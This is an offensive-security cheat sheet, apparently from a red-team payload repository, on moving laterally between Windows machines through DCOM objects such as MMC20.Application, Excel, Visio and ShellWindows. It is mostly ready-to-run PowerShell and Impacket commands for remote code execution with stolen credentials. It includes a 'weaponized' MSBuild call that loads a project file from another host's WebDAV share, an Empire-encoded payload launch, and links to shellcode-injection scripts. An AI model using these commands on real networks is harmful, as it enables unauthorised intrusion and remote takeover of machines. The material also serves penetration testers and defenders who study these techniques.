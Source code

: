 # Internal - DCOM

> DCOM is an extension of COM (Component Object Model), which allows applications to instantiate and access the properties and methods of COM objects on a remote computer.


* Impacket DCOMExec.py
  ```ps1
  dcomexec.py [-h] [-share SHARE] [-nooutput] [-ts] [-debug] [-codec CODEC] [-object [{ShellWindows,ShellBrowserWindow,MMC20}]] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-A authfile] [-keytab KEYTAB] target [command ...]
  dcomexec.py -share C$ -object MMC20 '<DOMAIN>/<USERNAME>:<PASSWORD>@<MACHINE_CIBLE>'
  dcomexec.py -share C$ -object MMC20 '<DOMAIN>/<USERNAME>:<PASSWORD>@<MACHINE_CIBLE>' 'ipconfig'

  python3 dcomexec.py -object MMC20 -silentcommand -debug $DOMAIN/$USER:$PASSWORD\$@$HOST 'notepad.exe'
  # -object MMC20 specifies that we wish to instantiate the MMC20.Application object.
  # -silentcommand executes the command without attempting to retrieve the output.
  ```
* CheeseTools - https://github.com/klezVirus/CheeseTools
  ```powershell
  # https://klezvirus.github.io/RedTeaming/LateralMovement/LateralMovementDCOM/
  -t, --target=VALUE         Target Machine
  -b, --binary=VALUE         Binary: powershell.exe
  -a, --args=VALUE           Arguments: -enc <blah>
  -m, --method=VALUE         Methods: MMC20Application, ShellWindows,
                              ShellBrowserWindow, ExcelDDE, VisioAddonEx,
                              OutlookShellEx, ExcelXLL, VisioExecLine, 
                              OfficeMacro
  -r, --reg, --registry      Enable registry manipulation
  -h, -?, --help             Show Help

  Current Methods: MMC20.Application, ShellWindows, ShellBrowserWindow, ExcelDDE, VisioAddonEx, OutlookShellEx, ExcelXLL, VisioExecLine, OfficeMacro.
  ```
* Invoke-DCOM - https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Invoke-DCOM.ps1
  ```powershell
  Import-Module .\Invoke-DCOM.ps1
  Invoke-DCOM -ComputerName '10.10.10.10' -Method MMC20.Application -Command "calc.exe"
  Invoke-DCOM -ComputerName '10.10.10.10' -Method ExcelDDE -Command "calc.exe"
  Invoke-DCOM -ComputerName '10.10.10.10' -Method ServiceStart "MyService"
  Invoke-DCOM -ComputerName '10.10.10.10' -Method ShellBrowserWindow -Command "calc.exe"
  Invoke-DCOM -ComputerName '10.10.10.10' -Method ShellWindows -Command "calc.exe"
  ```


## DCOM via MMC Application Class 

This COM object (MMC20.Application) allows you to script components of MMC snap-in operations. there is a method named **"ExecuteShellCommand"** under **Document.ActiveView**.

```ps1
PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.1"))
PS C:\> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)
PS C:\> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc DFDFSFSFSFSFSFSFSDFSFSF < Empire encoded string > ","7")

# Weaponized example with MSBuild
PS C:\> [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.1")).Document.ActiveView.ExecuteShellCommand("c:\windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe",$null,"\\10.10.10.2\webdav\build.xml","7")
```

Invoke-MMC20RCE : https://raw.githubusercontent.com/n0tty/powershellery/master/Invoke-MMC20RCE.ps1


## DCOM via Office

* Excel.Application
  * DDEInitiate
  * RegisterXLL
* Outlook.Application
  * CreateObject->Shell.Application->ShellExecute
  * CreateObject->ScriptControl (office-32bit only)
* Visio.InvisibleApp (same as Visio.Application, but should not show the Visio window)
  * Addons
  * ExecuteLine
* Word.Application
  * RunAutoMacro


```ps1
# Powershell script that injects shellcode into excel.exe via ExecuteExcel4Macro through DCOM
Invoke-Excel4DCOM64.ps1 https://gist.github.com/Philts/85d0f2f0a1cc901d40bbb5b44eb3b4c9
Invoke-ExShellcode.ps1 https://gist.github.com/Philts/f7c85995c5198e845c70cc51cd4e7e2a

# Using Excel DDE
PS C:\> $excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "$ComputerName"))
PS C:\> $excel.DisplayAlerts = $false
PS C:\> $excel.DDEInitiate("cmd", "/c calc.exe")

# Using Excel RegisterXLL
# Can't be used reliably with a remote target
Require: reg add HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations /v AllowsNetworkLocations /t REG_DWORD /d 1
PS> $excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "$ComputerName"))
PS> $excel.RegisterXLL("EvilXLL.dll")

# Using Visio
$visio = [activator]::CreateInstance([type]::GetTypeFromProgID("Visio.InvisibleApp", "$ComputerName"))
$visio.Addons.Add("C:\Windows\System32\cmd.exe").Run("/c calc")
```


## DCOM via ShellExecute

```ps1
$com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"10.10.10.1")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
```


## DCOM via ShellBrowserWindow

:warning: Windows 10 only, the object doesn't exists in Windows 7

```ps1
$com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"10.10.10.1")
$obj = [System.Activator]::CreateInstance($com)
$obj.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
```